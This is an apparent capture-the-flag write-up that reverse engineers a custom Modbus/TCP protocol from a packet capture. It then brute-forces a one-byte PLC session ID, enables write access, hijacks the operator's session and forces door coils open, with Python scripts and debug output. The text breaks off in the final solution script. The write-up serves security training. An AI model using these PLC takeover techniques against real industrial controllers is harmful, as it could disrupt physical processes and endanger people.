






 <font size='10'>Knock Knock</font>

20<sup>th</sup> May 2024 / Document No. D24.102.74

Prepared By: diogt

Challenge Author(s): diogt

Difficulty: <font color=green>Easy</font>

Classification: Official

# Synopsis

- Reverse engineering of a custom protocol written on top of Modbus/TCP, that utilized a custom function code, in order to takeover control of a PLC and force changes in its coils (outputs).

## Description

- During their mission inside Vault 79, the crew inadvertently trips an unmarked sensor not shown on the schematics and blueprints, triggering the Vault's automated defense system. The main and secondary doors slam shut, and the walls begin slowly closing in, threatening to crush the crew inside. With time running out, the crew quickly gathers around the maintenance console, where they have already collected significant information about the custom protocol used on top of Modbus to interact with the PLC controlling the doors. The hackers spring into action, aiming to hijack the session of the operator program that was activated. Can you make it out alive before time runs out?

## Skills Required

- Basic understanding of Modbus/TCP
- Basic Python coding skills

## Skills Learned

- Reverse engineering a custom protocol on top of Modbus/TCP
- Bypassing PLC restrictions to gain aunthorized access 

# Enumeration

## Analyzing the files

The challenge has an online instance and also provides us with a downloadable archive containing three files. 

* Notes.png: A scan of a document containing valuable information about the proprietary protocol we are tasked to analyze and interact with.
* client.py: A client script that contains two wrappers for the `ModbusRequest` and `ModbusResponse` classes of `pymodbus`. These wrappers enable interaction with proprietary protocols using custom function codes on top of Modbus.
* traffic_log.pcapng: A network capture file that contains Modbus traffic including an custom function code.

### Custom Modbus Function Code Information

Let's start by analyzing the image to gather information about the protocol in use before we proceed with interacting with the PLC. A first look at the document indicates that the Modbus server in question uses a custom function code with an unknown value. Moreover, a note indicates that function codes inside this proprietary protocol have commands grouped in subsequent values like take_reservartion and release_reservation. Then we have several pieces of information that provide us:

* The Door control coils for the Main (0x01) and secondary (0x02) doors
* Known Error Codes ranging from 0xE001 to 0xE008
* The PLC Cycle Time: 1 second
* The time the vault doors take too open: 10 seconds (approximately)
* The flag address is located on the Holding Register with number 123
* A series of commands performed in the captured network traffic:
  *  Reserve PLC
  * Start PLC
  * Disable write access via Modbus to the PLC




### Verify write restriction

Our objective is to open the doors, controlled by the coils in the Modbus server, but based on the additional information it appears that the write access is disabled via Modbus which will make it impossible for us to remotely open the doors. Let's verify that we can not indeed write any of the coils. Let's use the following pymodbus client to write to the coils 0x01 and 0x02.

```python
from pymodbus.client import ModbusTcpClient
from pymodbus.transaction import ModbusSocketFramer

HOST = 'loclahost'
IP = 502

if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST, port=IP, framer=ModbusSocketFramer)
    

    # Configuration
    COIL_START = 0
    COIL_VALUES = [0,1,1]  
    COIL_COUNT = len(COIL_VALUES)  # Number of coils to read


    if client.connect():
        # Writing coils
        response = client.write_coils(COIL_START, COIL_VALUES)

        if not response.isError():
            print("coils written successfully")
        else:
            print("Error writing coils:", response)


      # Reading coils
        read_response = client.read_coils(COIL_START, COIL_COUNT)
        if not read_response.isError():
            print("coil values read:", read_response.bits)
        else:
            print("Error reading coils:", read_response)

        # Close the connection
        client.close()
    else:
        print("Failed to connect to MODBUS server")
```

After executing the client it appears that we sent the command successfully, but reading back the coils indicated no change. This verified that there is indeed a restriction on the Modbus server.

```
python3 write_coils.py

Registers written successfully
Register values read: [False, False, False, False, False, False, False, False]
```

### Reverse engineering the custom protocol

Lets move to the .pcap and analyze the traffic contained in it by focusing our efforts to the custom function code. At first glance, we can see a series of packets that utilize an Unknown function, with the number 102 (0x66).



Let's follow the TCP Stream for these packets.



Once we have the stream open we can switch to raw format to analyze and dissect the packets.



In the raw format we can get the Modbus/TCP packets using the custom function code:




Here is a break down the structure of the Modbus TCP packet `00010000000400660047`:

| Field                  | Bytes   | Hex Value | Description                                                  |
| ---------------------- | ------- | --------- | ------------------------------------------------------------ |
| Transaction Identifier | 2 bytes | `00 01`   | Used to match responses with requests                        |
| Protocol Identifier    | 2 bytes | `00 00`   | Always `0000` for Modbus TCP                                 |
| Length                 | 2 bytes | `00 04`   | Specifies the number of remaining bytes in the packet (Unit Identifier, Function Code, Data) |
| Unit Identifier        | 1 byte  | `00`      | Identifies the remote unit (commonly `00` for Modbus TCP)    |
| Function Code          | 1 byte  | `66`      | Specifies the function to be performed (custom or proprietary function code) |
| Data                   | 2 bytes | `00 47`   | Specific data for the function, the meaning depends on the custom implementation |

So we can simplify the raw packets and focus only on the Modbus part excluding the TCP wrapper. This leaves us with the following packets.

```
660047
660047ff0100000001
660012
660012ff0000
660010086f70657261746f72
660010ff81
668145
668145ff01
668153
668153ff01
668111
668111ff81
```

Now we must find patterns in the packets. Based on the Notes, we already know what three of the requests should be. The first information we have is the  Reserve PLC which must be where the operator obtains his session we are tasked with hijacking. Switching view back to hexdump we can see that the packet `660010086f70657261746f72` contains the word operator in it.



We will use the provided `client.py` to send the same command back to the PLC and then compare the responses.

```python
CUSTOM_FUNCTION_CODE = 0x66 # CHANGE FUNCTION CODE]

# <SNIP>

def string_to_hex_list(hex_string):
    return [int(hex_string[i:i+2], 16) for i in range(0, len(hex_string), 2)]


if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    packet = "0010086f70657261746f72"
    packet_list = string_to_hex_list(packet)
    DATA = packet_list
    data = send_packet(client, DATA)

    hex_data = [hex(x) for x in data]

    formatted_hex_string = ''.join(f'{int(x, 16):02x}' for x in hex_data)
    print(hex_data, formatted_hex_string)
```

Now we can run the code and observe the output:
````
python3.9 client.py

DEBUG:pymodbus.logging:Connection to Modbus server established. Socket ('192.168.178.23', 58834)
Connected to the server
DEBUG:pymodbus.logging:Current transaction state - IDLE
DEBUG:pymodbus.logging:Running transaction 1
DEBUG:pymodbus.logging:SEND: 0x0 0x1 0x0 0x0 0x0 0xd 0x0 0x66 0x0 0x10 0x8 0x6f 0x70 0x65 0x72 0x61 0x74 0x6f 0x72
DEBUG:pymodbus.logging:New Transaction state "SENDING"
DEBUG:pymodbus.logging:Changing transaction state from "SENDING" to "WAITING FOR REPLY"
DEBUG:pymodbus.logging:Changing transaction state from "WAITING FOR REPLY" to "PROCESSING REPLY"
DEBUG:pymodbus.logging:RECV: 0x0 0x1 0x0 0x0 0x0 0x7 0x0 0x66 0x0 0x10 0xf0 0xe0 0x6
DEBUG:pymodbus.logging:Processing: 0x0 0x1 0x0 0x0 0x0 0x7 0x0 0x66 0x0 0x10 0xf0 0xe0 0x6
DEBUG:pymodbus.logging:Factory Response[CustomProtocolResponse': 102]
data: (0, 16, 240, 224, 6)
DEBUG:pymodbus.logging:Adding transaction 1
DEBUG:pymodbus.logging:Getting transaction 1
DEBUG:pymodbus.logging:Changing transaction state from "PROCESSING REPLY" to "TRANSACTION_COMPLETE"
Successful response: (0, 16, 240, 224, 6)
(0, 16, 240, 224, 6)
['0x0', '0x10', '0xf0', '0xe0', '0x6'] 0010f0e006
````

Let's compare our response to the one in the PCAP.

```660010ff81
CLIENT: 0010 f0 e006
PCAP:   0010 ff 81
```

| client byte | Pcap bute | info                   |
| ----------- | --------- | ---------------------- |
| 00          | 00        | same                   |
| 10          | 10        | same                   |
| F0          | DD        | Do not match           |
| E0          | 81        | Do not match           |
| 06          | xx        | No byte in PCAP packet |

The value 0xE006 looks familiar! Indeed if we look back to the Notes we can see this is one of the known error codes.
* 0xE006: PLC Already Reserved

Using this we can verify that this packet is used to perform the reservation for the operator program. Looking back at the packets recovered from the network capture we can make another observation.

```
660010086f70657261746f72
660010ff81
668145
668145ff01
668153
668153ff01
668111
668111ff81
```

The value 0x81 returned in the above packet is then used by the client for all the subsequent requests right after the Custom Function Code value. This suggests that the second byte might be functioning as the session identifier. Based on the information available, we can attempt to define the packet structure of the protocol being used.

| byte         | common values  | Information                                                  |
| ------------ | -------------- | ------------------------------------------------------------ |
| 1st          | 66             | Custom Function Code                                         |
| 2nd          | 00/81          | Possible Session ID                                          |
| 3rd          | 47/12/45/53/11 | Unkown                                                       |
| 4th          | FF/F0          | Unkown                                                       |
| 5th (and on) | Varying values | After the 5th byte it appears to be data, including Error codes. |

We still have two bytes that their usecase is unknown to us. Let's attempt to replay more packets from the PCAP and observe the server responses. We can change the packet value omitting the Custom Function code as it is defined on the top of the client. 

| Packet (Exploding 0x66 FC) | Client Response            | Pcap Response    | Notes                                         |
| -------------------------- | -------------------------- | ---------------- | --------------------------------------------- |
| 0047                       | 0047ff0100010001           | 0047ff0100000001 | Only one byte changed from 0x00 to 0x01       |
| 0012                       | 0012ff01006f70657261746f72 | 0047ff0000       | 6f70657261746f72 (HEX) == operator (ASCII)    |
| 8145                       | 8145f0e008                 | 8145ff01         | Error Code 0xE008: Invalid or expired session |
| 8153                       | 8153f0e008                 | 8153ff01         | Error Code 0xE008: Invalid or expired session |
| 8111                       | 8111f0e008                 | 8111ff81         | Error Code 0xE008: Invalid or expired session |


Using the above table we can make the following observations: 

* The first two bytes are always reflected on the server responses
* Whenever we get an error code the 3rd byte is 0xF0, thus it appears that 0xFF indicates a successful command whereas 0xF0 is a failure to execute.
* The first byte is static and only changed during the PLC Reservation process 
* When we change the second byte the response from the server also changes, this indicates that this byte is the custom command IDs
  * For the first two packets
  * While the rest return the Error Code 0xE008: Invalid or expired session, which indicates that these commands require an active session to be executed

With the above observations in mind, we can update the breakdown table we made earlier to define each field of the packets

| byte         | common values  | Information                                                  |
| ------------ | -------------- | ------------------------------------------------------------ |
| 1st          | 66             | Custom Function Code                                         |
| 2nd          | 00/81          | Possible Session ID                                          |
| 3rd          | 47/12/45/53/11 | **Custom Function Code (or Command)**                        |
| 4th          | FF/F0          | **Byte indicating success or failure of the command. FF: Success, F0: Failure** |
| 5th (and on) | Varying values | After the 5th byte it appears to be data, including Error codes. |


### Setting up the client

Now that we have a rough understanding of the custom Function Code protocol, we can update the provided client to correctly segment each area of the data sent and received from the Modbus server.

````python
# Tested on: 
# python 3.9.18 
# pymodbus==3.5.4

# README: Once the objective is completed and the doors are fully open 
# you can find the flag located on the Holding Registers of the PLC
# starting on address: FLAG_ADDR_HOLDING_REGISTER = 123

from pymodbus.client import ModbusTcpClient
from pymodbus.pdu import ModbusRequest, ModbusResponse
import struct
import logging
from pymodbus.transaction import ModbusSocketFramer
import time

# Configure logging to display debug messages 
# form pymodbus library to inspect Modbus traffic
logging.basicConfig()
logging.getLogger().setLevel(logging.DEBUG)

HOST_IP = '83.136.248.18' # CHANGE IP
HOST_PORT = 31487       # CHANGE PORT

CUSTOM_FUNCTION_CODE = 0x66 # CHANGE FUNCTION CODE

SESSION = 0x00

ERROR_CODES = {
    0xE001: "Connection Timeout",
    0xE002: "Data Format Error",
    0xE003: "Invalid Function Code",

    0xE005: "PLC is not Reserved",
    0xE006: "PLC Already Reserved",
    0xE007: "PLC reservation already completed",
    0xE008: "Invalid or expired session!",
}


#Class templates for custom Modbus Request and Response 
# You must configure properly the classes bellow

class CustomProtocolRequest(ModbusRequest):
    function_code = CUSTOM_FUNCTION_CODE

    def __init__(self, session= 0x00, code= 0, data=None, **kwargs):
        super().__init__(**kwargs)
        self.session = session
        self.code = code
        self.data = data if data is not None else []

    def encode(self):
        # Dynamically encode data based on its length and type
        data_format = '>BB' + 'B' * len(self.data)
        return struct.pack(data_format, self.session, self.code, *self.data)

    def decode(self, data):
        """Decode a request pdu.
        
        Dynamically decode data based on data lenght

        This function does not return data
        """
        print('[!] Request decode is not required for client!')


class CustomProtocolResponse(ModbusResponse):
    function_code = CUSTOM_FUNCTION_CODE

    def __init__(self, session= 0x00, code= 0x00, response_code= 0x00 , data= None, **kwargs):
        super().__init__(**kwargs)
        self.session = session
        self.code = code
        self.data = data if data is not None else []
        self.response_status = False

    def encode(self):
        """Ecnode a response pdu.
        
        Dynamically encode data based on data lenght

        This function returns data
        """
        print('[!] Response encode is not required for client!')
       
        #return

    def decode(self, data):
        """Decode a response pdu.
        
        Decode a response packet where all components including session ID and custom function code are 8-bit values.
        """
        # Unpack the session and code first
        self.session, self.code, self.response_status = struct.unpack('>BBB', data[:3])
        # Decode the remaining data as 8-bit unsigned integers
        self.data = list(struct.unpack('>' + 'B' * (len(data) - 3), data[3:]))

        global SESSION

        SESSION = self.session


def send_custom_protocol_request(client, session, code, data):
    request = CustomProtocolRequest(session=session, code=code, data=data)
    response = client.execute(request)
    
    if response.function_code < 0x80:
        #print("Successful response:", response.session, response.code, response.data)
        return response.code, response.response_status, response.data
    else:
        print("Error response:", response)
        return -1, -1, -1 

def send_packet(client, SESSION, CUSTOM_CODE, DATA=[]):
        if client.connect():
            print("Connected to the server")
        
            code, status, data = send_custom_protocol_request(client, session= SESSION, code=CUSTOM_CODE, data=DATA)  # Example with multiple data points        
        
            if len(data) == 2:
                hex_number = (lambda x: (x[0] << 8) + x[1])(data)

                if hex_number in ERROR_CODES:
                    print(f'ERROR: {ERROR_CODES[hex_number]}')
        else:
            print("Failed to connect to the server")

        return code, status, data


def string_to_hex_list(hex_string):
    return [int(hex_string[i:i+2], 16) for i in range(0, len(hex_string), 2)]


if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    custom_code = 0x10
    code, status, data = send_packet(client, SESSION, custom_code)

    hex_data = [hex(x) for x in data]

    formatted_hex_string = ''.join(f'{int(x, 16):02x}' for x in hex_data)
    print(hex_data, formatted_hex_string)
    
````

With the updated client, that properly handles the custom ModbusRequest and ModbusRespones we can continue our analysis with a more streamlined approach.

> Note: Even though the challenge does not explicitly require an update to the template, it is important to note that when dealing with proprietary protocols, it is imperative to properly set up the encoding and decoding processes for requesting and receiving data, including the handling of custom Error Codes. This will streamline the process of reverse engineering the protocol and properly interacting with it.

### Finding the active session

So, based on the error message we receive when we send the command 0x10, and the description that prompts us to hijack the session from the operator program, our next logical step will be to identify the active session. Based on the PCAP traffic during the reservation only a simple name (or password) is given, namely the ASCII text: `operator`. It appears that there is not a proper authentication mechanism in place that is used to gain a session to the PLC. Combining that with the fact that the session ID is only one byte long we should be able to fuzz the Modbus server until we find the currently active session. To achieve that we can :

1.  Use the command 0x10 until we observe a different response from the one we currently receive 

   or

2.  Attempt to send one of the restricted commands.


1 Using the 0x10 command:

```python
# <SNIP>

if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    custom_code = 0x10
    for i in range(0x00, 0xff):
        SESSION = i
        code, status, data = send_packet(client, SESSION, custom_code)


        hex_data = [hex(x) for x in data]

        formatted_hex_string = ''.join(f'{int(x, 16):02x}' for x in hex_data)
        print(hex_data, formatted_hex_string)

        if data != [0xe0, 0x06]:
            print(f'Current Session ID: {SESSION} ({SESSION:#x})')
            break

```

We will get the following result:
```
python3 client.py

<SNIP>

ERROR: PLC Already Reserved
['0xe0', '0x6'] e006
Connected to the server
DEBUG:pymodbus.logging:Current transaction state - TRANSACTION_COMPLETE
DEBUG:pymodbus.logging:Running transaction 153
DEBUG:pymodbus.logging:SEND: 0x0 0x99 0x0 0x0 0x0 0x4 0x0 0x66 0x98 0x10
DEBUG:pymodbus.logging:New Transaction state "SENDING"
DEBUG:pymodbus.logging:Changing transaction state from "SENDING" to "WAITING FOR REPLY"
DEBUG:pymodbus.logging:Changing transaction state from "WAITING FOR REPLY" to "PROCESSING REPLY"
DEBUG:pymodbus.logging:RECV: 0x0 0x99 0x0 0x0 0x0 0x7 0x0 0x66 0x98 0x10 0xff 0xe0 0x7
DEBUG:pymodbus.logging:Processing: 0x0 0x99 0x0 0x0 0x0 0x7 0x0 0x66 0x98 0x10 0xff 0xe0 0x7
DEBUG:pymodbus.logging:Factory Response[CustomProtocolResponse': 102]
DEBUG:pymodbus.logging:Adding transaction 153
DEBUG:pymodbus.logging:Getting transaction 153
DEBUG:pymodbus.logging:Changing transaction state from "PROCESSING REPLY" to "TRANSACTION_COMPLETE"
ERROR: PLC reservation already completed
['0xe0', '0x7'] e007
Current Session ID: 152 (0x98)
```

As we can observe the error message changes to `ERROR: PLC reservation already completed` for the `Session ID: 152 (0x98)`.

2. Using one of the restricted commands 0x45, by changing only two lines::

```python
# <SNIP>
custom_code = 0x45
# <SNIP>
        if data != [0xe0, 0x08]:
# <SNIP>
```

We get a response similar to the one in the PCAP once we find the active Session ID:

```
python3 client.py

<SNIP>
ERROR: Invalid or expired session!
['0xe0', '0x8'] e008
<SNIP>
['0x1'] 01
Current Session ID: 152 (0x98)
```

### Interacting with restricted function codes

Now that we have the active session we can send the restricted commands. we know two of them are the `Start PLC` and `Disable write access via Modbus to the PLC`. Our objective is to enable the write access to force open the coils. We know from the provided notes that similar functions are grouped together like take_reservation and release_reservation. This means that the `Stop PLC` and also `Enable write access via Modbus to the PLC` must have a function code (command ID) right before or after their counterparts. From the three restricted function codes we have one of them (0x11) appears to be paired with the take_reservation (0x10). This leaves two more function codes that must correspond to the `Start PLC` and `Disable write access commands` (0x45, 0x53). We can send the following packets to find any commands close to them:

```python
# <SNIP>

if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    custom_code = 0x45
    code, status, data = send_packet(client, SESSION, custom_code-1)
    code, status, data = send_packet(client, SESSION, custom_code+1)

    custom_code = 0x53
    code, status, data = send_packet(client, SESSION, custom_code-1)
    code, status, data = send_packet(client, SESSION, custom_code+1)

```

```
python3 client.py

Connected to the server
ERROR: Invalid or expired session!
Connected to the server
ERROR: Invalid or expired session!
Connected to the server
ERROR: Invalid or expired session!
Connected to the server
ERROR: Invalid Function Code
```

So the following additional function codes exist: 0x44, 0x46, 0x52. Attempting to send those commands with our valid session will result in a failure for the command 0x44 returning the code ERROR CODE 0xE003: Invalid Function Code. The other two commands appear to pass on successfully. Attempting to write the coils now results in success.

```
python3 write_coils.py

Coils written successfully
Coils values read: [False, True, True, False, False, False, False, False]
```

### PLC take over

Unfortunately, if we wait 10 seconds (the duration for the vault doors to open) and attempt to read the flag we will fail. Let's try again the full process of forcing the coils true then wait 10 seconds before we verify that the coils are still true and reading the registers.

```python
from pymodbus.client import ModbusTcpClient

from pymodbus.transaction import ModbusSocketFramer
import time

HOST = 'localhost'
IP = 502
FLAG_ADDR_HOLDING_REGISTER = 123
FLAG_COUNT = 100

if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST, port=IP, framer=ModbusSocketFramer)
    
    # Configuration
    COIL_START = 0
    COIL_VALUES = [0,1,1]  
    COIL_COUNT = len(COIL_VALUES)  # Number of Coils to read


    if client.connect():
        # Writing coils
        response = client.write_coils(COIL_START, COIL_VALUES)

        if not response.isError():
            print("Coils written successfully")
        else:
            print("Error writing coils:", response)

        time.sleep(10)

        # Reading coils
        read_response = client.read_coils(COIL_START, COIL_COUNT)
        if not read_response.isError():
            print("Coils values read:", read_response.bits)
        else:
            print("Error reading coils:", read_response)

        time.sleep(10)
       
        if client.connect():
        
          # Reading from Holding Registers
            read_response = client.read_holding_registers(FLAG_ADDR_HOLDING_REGISTER, FLAG_COUNT)
            if not read_response.isError():
                print("Register values read:", read_response.registers)
            else:
                print("Error reading registers:", read_response)

            FLAG = ''.join([chr(char) for char in read_response.registers])
            print('FLAG:', FLAG)
            # Close the connection
            client.close()
        else:
            print("Failed to connect to MODBUS server")

        # Close the connection
        client.close()
    else:
        print("Failed to connect to MODBUS server")

```

Executing the above codes indicates that the coils mapped to the doors (0x01 and 0x02) are false after a certain amount of time even though we forced them open.

```
python3 write_coils.py

Coils written successfully
Coils values read: [False, False, False, False, False, False, False, False]
Register values read: [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
FLAG:
```

Since we have send both commands mapped close to the two restricted commands from the PCAP, correspoding to `start PLC` and `disbale write access`, this means we have `enabled write access via Modbus` and also `Stoped the PLC`. If the PLC is not running its control logic this can not be the reason for the failure to force the coils.

> If the PLC Logic was still running, then it would make sense for the coils to be overwritten by the control logic running on the PLC which would have the outputs (coils) of the doors connected to some inputs (ex: physical push buttons, sensors, etc).

The only other external factor that might affect this process is the operator program which shares the same session with us. Let's try to take over the session of the operator program by:

1. release the current reservation
2. take a new reservation (resulting to a new Session ID)

Let's use the provided client again to send the 0x11 command.

```python
# <SNIP>
if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    custom_code = 0x45

    for i in range(0x00, 0xff):
        SESSION = i
        code, status, data = send_packet(client, SESSION, custom_code)


        hex_data = [hex(x) for x in data]

        formatted_hex_string = ''.join(f'{int(x, 16):02x}' for x in hex_data)
        print(hex_data, formatted_hex_string)


        if data != [0xe0, 0x08]:
            print(f'Current Session ID: {SESSION} ({SESSION:#x})')
            break


    code, status, data = send_packet(client, SESSION, 0x11)
    
    username = [ord(char) for char in 'new_operator']

    code, status, data = send_packet(client, SESSION, 0x10, username)
    SESSION = data[0]
```

Running the client with the above updates results in a new error.

```
python3 client.py

ERROR CODE 0xE002: Data Format Error
```

It appears that the format of the data we send needs to be corrected. We can review again the sample commands from the PCAP to uncover any missing information.

| command byte(s)          | use case                    |
| ------------------------ | --------------------------- |
| 660010086f70657261746f72 | Custom Modbus Function Code |
| 00                       | Session ID                  |
| 10                       | Take reservation command    |
| 08                       | Unkown                      |
| 6f70657261746f72         | operator text               |

There is one byte in the data which we don't know its use for. If we look closely top find a correlation to the rest of the data we can see that the operator text consists of 8 bytes. We can now attempt to takeover the session again by sending our new_operator lenght.

```python
# <SNIP>
code, status, data = send_packet(client, SESSION, 0x10, [len(username)] + username)
SESSION = data[0]
print(f'New session id {SESSION}')
```

Now when running the updated client we have successfully replaced the existing session of the operator program with a new one.

```
python3  client.py

<SNIP>

New session id 25
```

# Solution: 

Now we can combine the updated client and the extra code for the write coils and read registers (flag) operations and make a last attempt to force the vault doors open!

```python
# Tested on: 
# python 3.9.18 
# pymodbus==3.5.4

# README: Once the objective is completed and the doors are fully open 
# you can find the flag located on the Holding Registers of the PLC
# starting on address: FLAG_ADDR_HOLDING_REGISTER = 123

from pymodbus.client import ModbusTcpClient
from pymodbus.pdu import ModbusRequest, ModbusResponse
import struct
import logging
from pymodbus.transaction import ModbusSocketFramer
import time

# Configure logging to display debug messages 
# form pymodbus library to inspect Modbus traffic
#logging.basicConfig()
#logging.getLogger().setLevel(logging.DEBUG)


FLAG_ADDR_HOLDING_REGISTER = 123
FLAG_COUNT = 100
COIL_START = 0
COIL_VALUES = [0,1,1]  
COIL_COUNT = len(COIL_VALUES)  # Number of Coils to read


HOST_IP = 'localhost' # CHANGE IP
HOST_PORT = 502       # CHANGE PORT

CUSTOM_FUNCTION_CODE = 0x66 # CHANGE FUNCTION CODE]

SESSION = 0x00

ERROR_CODES = {
    0xE001: "Connection Timeout",
    0xE002: "Data Format Error",
    0xE003: "Invalid Function Code",
    0xE005: "PLC is not Reserved",
    0xE006: "PLC Already Reserved",
    0xE007: "PLC reservation already completed",
    0xE008: "Invalid or expired session!",
}


#Class templates for custom Modbus Request and Response 
# You must configure properly the classes bellow

class CustomProtocolRequest(ModbusRequest):
    function_code = CUSTOM_FUNCTION_CODE

    def __init__(self, session= 0x00, code= 0, data=None, **kwargs):
        super().__init__(**kwargs)
        self.session = session
